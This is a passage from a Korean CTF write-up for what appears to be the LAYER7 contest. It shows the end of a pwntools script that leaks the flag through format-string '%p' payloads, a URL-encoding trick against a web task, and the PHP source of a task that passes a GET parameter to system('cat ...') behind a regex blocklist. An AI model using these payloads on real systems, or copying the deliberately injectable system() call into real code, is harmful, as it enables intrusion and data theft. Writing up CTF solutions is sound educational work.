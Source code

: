 ```

    p.recv()
    p.sendline("31337")

    payload = "%{0}$p".format(i)
    p.sendline(payload)
    
    p.recvuntil(": 0x")
    tmp = p.recvuntil("G")[:-1]
    flag += chr(int("0x"+tmp[6:8],16)) +  chr(int("0x"+tmp[4:6],16)) + chr(int("0x"+tmp[2:4],16)) + chr(int("0x"+tmp[0:2],16))
    p.close()

print(flag)
```

#### FLAG : LAYER7{L1f3..1s..P0k3m0n_or_D1g1m0n..wh4t}


## Web

### url routing - 150pt

```
http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?%66%6c%61%67
```

위와 같이 입력해주면

```
http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?flag
```

이렇게 바뀌어서 플래그를 뱉는다.

#### FLAG : LAYER7{4f3a6c9f4b9c36ed3c39b8d3e14aa4fb}


### meow - 160pt

```
<?php 
    require __DIR__.'/flag.php'; 

    if(isset($_GET['file'])){ 
        if(preg_match('/flag|\'|\"|`|\\\\|;|\(|\)|\*|\?|\.\.|\//i', $_GET['file'])){ 
            die('no hack'); 
        } 
        system('cat "'.$_GET['file'].'"'); 

    }else{ 
        header('Location: ?file=test.txt'); 

    } 

    echo '<hr>'; 
    highlight_file(__FILE__);
```
